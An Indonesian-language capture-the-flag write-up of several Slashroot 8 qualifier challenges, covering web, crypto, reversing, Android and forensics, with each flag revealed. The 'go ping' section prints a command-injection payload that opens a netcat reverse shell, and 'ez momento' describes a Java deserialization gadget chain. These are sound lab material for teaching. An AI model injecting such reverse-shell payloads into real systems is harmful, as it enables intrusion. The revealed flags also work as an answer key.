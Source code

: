```yaml
---
title: Slashroot 8 Quals
date: 2025-03-15
team: N2L - Sigma
member:
  - pajarori
---
```


# [joy]

## package delivery {#packagedelivery}
### overview
Diberikan file zip berisi file program yang dibuat dengan godot engine terdapat file .exe dan .pck, nah cara mudahnya disini kita hanya perlu melakukan strings pada file .pck dan ambil untuk string berisi kata slashroot, nah karena kayaknya kurang menantang pada saat memulai program disuruh untuk memainkan dan mendapatkan score 9999, disini saya menggunakan cheat engine untuk menyelesaikan itu.
![packagedelivery-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/packagedelivery-1.png)
### flag
slashroot8{N0T90Nn4l1e_tH4T_w45_E45y_hUh?}

# [web exploitation]
## login begin {#loginbegin}
### overview
Pada target website terdapat form login dan register namun terdapat bug parameter tampering pada parameter role di form register sehingga user yang ingin melakukan register bisa menjadikannya ke role admin dan mendapatkan flag yang di sembunyikan pada source htmlnya.
![loginbegin-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/loginbegin-1.png)
![loginbegin-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/loginbegin-2.png)
### flag
slashroot8{W0w_Y0u_G00d_B3gg1nn3r}

## go ping {#goping}
Diberikan sebuah form input host dan ketika di submit aplikasi melakukan execute command ping, ini biasanya sering jadi buat test untuk bug command injection. Disini saya langsung nge rev shell buat dapetin flag make payload
```bash showLineNumbers
&&|$(nc${IFS}10.10.10.10${IFS}1337${IFS}-e${IFS}sh)
```
![goping-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/goping-1.png)
![goping-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/goping-2.png)
### flag
slashroot8{Rc3_W1Th_c0mM4Nd_1Nj3cT1On_1S_V3Ry_v3rY_N1Ce}

## ez momento {#ezmomento}
### overview
Diberikan sebuah file source java, pada challange ini bug nya adalah Deserialization dengan memanfaatkan fungsi toString() di Gadget untuk yang fungsi run() di Command yang akan bisa menjadi RCE. 
![ezmomento-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-1.png)
Pada Main data dari request POST di deserialize dan kemudian memanggil fungsi toString() yang mana ada class Gadget yang mempunyai fungsi toString() yang isinya adalah memanggil fungsi run() dari variable this.command, eksekusi kode dilakukan di dalam class Command dengan menggunakan privat variable. Jadi untuk melakukan exploit dengan membuat payload serialize dari Gadget dan Command dengan variable command di dalam class Command adalah payload untuk reverse shell. 
![ezmomento-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-2.png)
Disini saya menggunakan Main.java untuk membuat payload nya.
![ezmomento-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-3.png)
![ezmomento-4](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/ezmomento-4.png)
### flag
slashroot8{it_is_really_private_UwU}

# [cryptography]
## baby encrypt {#babyencrypt}
### overview
Diberikan file python yang tampaknya di obfus dan dia sepertinya melakukan aes decrypt dan encrypt, namun ketika saya melihat kodingan ini saya hanya fokus pada bagian `print(eval(_d(_ct, _K, _I)))` dan `from secret import FLAG as _F`. Terdapat eval dan kemudian variable FLAG di *import sebagai _F* disini saya tanpa Slashroot 8.0 | N2L 11 mementingkan segala enkripsi yang terjadi di script ini, saya melakukan brute force untuk mendapatkan variable _F yang hanya 2 byte dan berharap bisa dieksekusi oleh eval() yang kemudian di print().
![babyencrypt-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyencrypt-1.png)
### code
[babyencrypt.py](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/files/babyencrypt.py)
### flag
slashroot8{ez_aes_decrypt_game_for_first_chall}

# [reverse engineering]

## baby lua {#babylua}
### overview
Diberikan sebuah binary ELF, ketika saya lihat menggunakan ghidra terdapat command yang di enkripsi base64. itu adalah command untuk mendownload file.luac yang nantinya digunakan untuk memverifikasi input user.
![babylua-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-1.png)
![babylua-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-2.png)
Jadi di dalam file .luac ini terdapat flag dari challenge, untuk meng decompile luac atau lua compiled menjadi lua saya menggunakan tools [luadec.metaworm.site](https://luadec.metaworm.site/). Setelah di dec terdapat binary text ini tinggal decode aja dan dapatlah flagnya.
![babylua-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-3.png)
![babylua-4](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babylua-4.png)
### flag
slashroot8{ez_0n3_f0r_y0u_see_y0u_1n_f1n4l}

## baby apk {#babyapk}
### overview
Diberikan file .apk yang menerima input angka yang kemudian digunakan untuk mendekripsi file image di raw.
![babyapk-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-1.png)
Algoritma yang digunakan dalam melakukan dekripsinya adalah XOR jadi asalkan tau beberapa byte di awal adalah apa maka bisa mendekripsi seluruh image dan kita tahu bahwa awal dari file image adalah header dengan tipe image itu sendiri. Disini headernya gambarnya adalah file png jadi saya menggunakan header png untuk mendapatkan key untuk mendekripsi seluruh isi konten. 
![babyapk-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-2.png)
![babyapk-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-3.png)
Dan didapatkan gambar qrcode dan ketika di translate dapat lah flagnya.
![babyapk-4](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/babyapk-4.png)
### flag
slashroot8{t00_d4mn_easy?_see_u_in_f1n4l}

## check khodan {#checkkhodam}
### overview
Terdapat intent FlagActivity pada aplikasi yang akan menampilkan sebuah flag dan untuk bisa melihat isi flag aplikasi melakukan verifikasi apakah level battery pada device yang digunakan adalah 69. 
![checkkhodam-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/checkkhodam-1.png)
Disini saya menggunakan emulator dari Android Studio dan merubah battery level menjadi 69 dan kemudian memanggil intent FlagActivity dan mendapatkan flagnya.
![checkkhodam-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/checkkhodam-2.png)
### flag
slashroot8{my_khod4m_is_j4l4k_b4ali}

# [digital forensic]

## find the key {#findthekey}
### overview
Diberikan file .unknown yang ternyata adalah file gambar jpg yang headernya corrupt jadi harus dibenerin dulu, setelah dibenerin dan di cek menggunakan binwalk terdapat file .zip yang di embed di dalam file .jpg.
![findthekey-1](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/findthekey-1.png)
tapi file .zip itu terenkripsi namun dapat di brute dan didapatkan passwordnya admin123. 
![findthekey-2](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/findthekey-2.png)
Setelah di ekstrak terdapat sebuah file yang isinya banyak sekali enkripsi base64 dan binary yang di campur, kebanyakan itu adalah fake flag jadi saya coba satu satu dan ketemu flagnya yang correct.
![findthekey-3](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/images/findthekey-3.png)
### flag
slashroot8{Y4n9_b1k1n_s04l_m4s1h_p3mul4}

## tiktiktik {#tiktiktik}
### overview
Diberikan 4 folder yang berisi file .png yang merupakan setiap pixel dari sebuah gambar. Jadi disini harus membentuk ulang gambarnya dari setiap pixel tersebut dan ada 4 folder di sini berarti ada 4 chunk kira kira dan disini saya asumsikan bahwa ini adalah gambar dengan rasio persegi. Disini saya melakukan sorting pada setiap pixel di chunk dan kemudian menggabungkannya semua sehingga nanti terbuatlah 4 file gambar yang jika dirangkai akan menjadi flag.
### code
[tiktiktik.py](https://raw.githubusercontent.com/pajarori/ctf/refs/heads/main/2024/slashroot8/files/tiktiktik.py)
### flag
slashroot8{s33_y0u_d1_f1nAl}
